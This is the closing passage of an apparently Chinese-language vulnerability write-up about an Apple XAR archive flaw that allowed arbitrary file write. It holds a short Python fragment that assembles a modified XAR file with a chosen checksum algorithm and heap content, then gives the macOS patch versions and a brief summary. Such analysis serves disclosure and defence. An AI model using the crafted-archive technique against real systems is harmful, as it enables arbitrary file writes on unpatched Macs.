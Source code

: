 ```python

chcksum_alg = int.to_bytes(1,4,'big')

heapcontent = h+mydata

mymodifiedxar = b''
mymodifiedxar += magic
mymodifiedxar += size
mymodifiedxar += version
mymodifiedxar += toc_length_compressed
mymodifiedxar += toc_length_uncompressed
mymodifiedxar += chcksum_alg
mymodifiedxar += compressed
mymodifiedxar += heapcontent
```

0x05 补丁
-------

升级到 macOS Monterey 12.3、macOS Big Sur 11.6.5、macOS 10.15 安全更新 2022-003 或更高版本。

0x06 总结
-------

苹果的开源项目因为逻辑问题，导致任意文件写入。我们在开发程序的时候要多注意，漏洞就在自己手底下！